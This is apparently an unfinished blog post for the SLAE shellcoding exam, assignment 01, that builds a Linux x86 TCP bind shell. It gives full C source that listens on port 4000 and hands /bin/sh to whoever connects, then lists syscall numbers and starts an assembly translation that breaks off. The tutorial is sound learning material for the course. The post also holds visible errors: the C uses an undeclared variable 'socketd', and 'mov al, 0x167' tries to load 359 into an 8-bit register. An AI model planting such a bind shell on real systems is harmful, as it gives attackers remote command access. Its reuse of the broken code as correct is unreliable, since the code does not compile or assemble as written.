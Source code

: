 ```yaml
---
title: SLAE exam assignment 01
author: Stipe Marinovic
date: 2020-05-17 20:00:00 +0800
categories: [Blogging, Tutorial]
tags: [slae, shellcoding]
toc: true
---
```



... page still under construction ...  

# Assignment 01 #

* Create a Shell_Bind_TCP shellcode
  - Binds to a port
  - Execs Shell on incoming connection
* Port number should be easily configurable

# Syscalls #

To get idea how bind shell works and which syscalls are used, we can create bind shell code in C. After a bit of research, the simplest bind shell is following:
```
#define _GNU_SOURCE # added to avoid gcc's implicit declaration of function warning
#include <unistd.h> 
#include <stdio.h> 
#include <sys/types.h> 
#include <sys/socket.h> 
#include <netinet/in.h> 

int main() { 

  // Define struct containing bind() arguments
  struct sockaddr_in server; 

  // Define socket file descriptor
  int socketfd; 
  int socketid; 
   
  // Create socket 
  socketd = socket(AF_INET, SOCK_STREAM, 6); 

  // Setup struct "server" containing following information: address, port and address family
  server.sin_addr.s_addr = htonl(INADDR_ANY); // any address (0.0.0.0)
  server.sin_port = htons(4000);              // port 4000
  server.sin_family = AF_INET;                // address family (ip v4)

  // Bind socket to ip 0.0.0.0, port 4000 
  bind(socketd, (struct sockaddr*) &server, sizeof(server)); 

  // Listen for incoming connections 
  listen(socketd, 2); 

  // Accept incoming connection 
  socketid = accept(socketd, NULL, NULL); 

  // Bind STDIN (0), STDOUT (1), STDERR (2) to incoming connection 
  dup2(socketid, 0); 
  dup2(socketid, 1); 
  dup2(socketid, 2); 

  // Run /bin/sh shell 
  execve("/bin/sh", NULL, NULL); 
} 
```

Compiled and run, we can confirm that bind shell is working.
!(bind shell)[../assets/img/slae_00001.png]

Based on prototype code above, we can conclude that following syscalls needs to be done in order to create bind shell:

* socket
* bind
* listen
* accept
* dup2
* execve

List of all syscalls and descriptions can be found in: unistd_32.h on following location: ```/usr/include/x86_64-linux-gnu/asm/unistd_32.h```

```
#define __NR_socket 359
#define __NR_socketcall 102
#define __NR_bind 361
#define __NR_listen 363
#define __NR_accept4 364
#define __NR_dup2 63
#define __NR_execve 11
```

# Converting C to Assembley #

First we need to figure out which arguments are needed for each syscall.  
Let's start with socket call. Based on man 2 pages (```man 2 socket```) we can see the descripton of function and arguments it takes.

```
int socket(int domain, int type, int protocol);
// socket()  creates an endpoint for communication and returns a file descriptor that refers to that endpoint.  
// The file descriptor returned by a successful call will be the lowest-numbered file descriptor not currently open for the process.
```

Arguments are passed via EAX, EBX, ECX, EDX, ESI, EDI registers.  
To have a clean start, registers need to be zero-out. Easiest way to do it (and avoid having null bytes in code) is by XOR register with itself.

```
xor eax, eax    ; Clear EAX 
xor ebx, ebx    ; Clear EBX
xor ecx, ecx    ; Clear ECX
xor edx, edx    ; Clear EDX
```

After that we need to pass syscall for socket in EAX register.

```mov al, 0x167 ; 359 (0x167) is the syscall for socket ```

Next, we need to pass arguments to ```socket(AF_INET, SOCK_STREAM, 6);``` function by placing arguments in registers:

```
mov bl, 2  ; domain = 2 (AF_INET/IPv4)
mov cl, 1  ; type = 1 (SOCK_STREAM/TCP)
mov dl, 6  ; protocol = 6 (IPPROTO_TCP)
int 0x80   ; syscall
```

.... to be continued ...


```
int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
// When a socket is created with socket(2), it exists in a name space (address family) but has no address assigned to it.
// bind() assigns the address specified by addr to the socket referred to by the file descriptor sockfd.  
// addrlen specifies the size, in bytes, of the address structure pointed to by addr.
```

```
int listen(int sockfd, int backlog);
// listen() marks the socket referred to by sockfd as a passive socket, that is, as a socket that will be used to accept incoming connection requests using accept(2).
// The sockfd argument is a file descriptor that refers to a socket of type SOCK_STREAM or SOCK_SEQPACKET.
//  The backlog argument defines the maximum length to which the queue of pending connections for sockfd may grow.  
```

```
int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen);
// The accept() system call is used with connection-based socket types (SOCK_STREAM, SOCK_SEQPACKET). 
// It extracts the first connection request on the queue of pending connections for the listening socket, sockfd, creates a new connected socket, and returns a new file descriptor referring to that socket.  
// The newly created socket is not in the listening state.  
```

```
int dup2(int oldfd, int newfd);
// The dup2() system call performs the same task as dup(), but instead of using the lowest-numbered unused file descriptor, it uses the file descriptor number specified in newfd.  If the file descriptor newfd was previously open, it is silently closed before being reused.
```

```
int execve(const char *pathname, char *const argv[], char *const envp[]);
// execve()  executes the program referred to by pathname.  
// This causes the program that is currently being run by the calling process to be replaced with a new program, with newly initialized stack, heap, and (initialized and uninitialized) data segments.
// pathname must be either a binary executable, or a script starting with a line of the form:
// #!interpreter [optional-arg]
```

